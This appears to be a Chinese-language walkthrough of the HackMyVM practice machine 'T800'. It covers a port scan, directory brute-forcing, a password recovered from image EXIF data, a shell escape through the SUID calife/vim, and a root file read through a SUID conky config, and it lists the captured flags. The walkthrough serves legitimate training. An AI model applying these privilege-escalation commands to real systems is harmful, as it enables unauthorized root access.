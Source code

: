 # T800

2024-11-10 https://hackmyvm.eu/machines/machine.php?vm=T800

## IP

192.168.5.40

## Scan

```
PORT    STATE SERVICE
80/tcp  open  http
800/tcp open  mdbs_daemon
```

800 端口是 ssh 端口，先看 80 web 服务，首页是一张图片，html 源码中有注释： Im ruut ， 有一个潜在的用户名 ruut

http://192.168.5.39/robots.txt 访问提示 `/sexy/*.jpeg` , 所以对此目录进行专门的图片扫描：

```
gobuster dir -q -t 64 -e -k -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x jpeg -u http://192.168.5.39/sexy/
```

扫描出一个图片 http://192.168.5.39/sexy/nudeslut.jpeg 将其下载，使用 exiftool 进行分析，得到密码：

```
exiftool nudeslut.jpeg

Comment : passwd:chmodxheart
```

使用上面最开始得到的用户名 ruut，尝试用密码 chmodxheart 登陆，成功。

在/home 目录中发现另外一个用户 superruut ，其目录中有 user flag，但是没有权限读取。

进行枚举，只发现了 2 个 suid 程序： /usr/bin/conky 和 /usr/bin/calife

使用 calife 可以切换到 superruut 用户：

```
/usr/bin/calife superruut
输入密码 chmodxheart

进入到了vim的编辑窗口，输入 :!/bin/bash 就进入到了 superruut 的shell环境
```

获得了 user flag：

```
superruut@t800:/home/superruut$ cat userflag.txt
ruutrulezhmv
```

现在寻找提权到 root 的路径，还有一个 suid 程序 conky 没有使用，这是一个系统监控工具，配置其配置文件，然后读取 root 的 id_rsa 文件：

```
conky.config = {
    out_to_console = true,
    out_to_x = false,
}

conky.text = [[
    ${curl /root/rootflag.txt}
]]
```

执行：

```
superruut@t800:/home/superruut$ /usr/bin/conky -c conf
hmvtitoroot
```
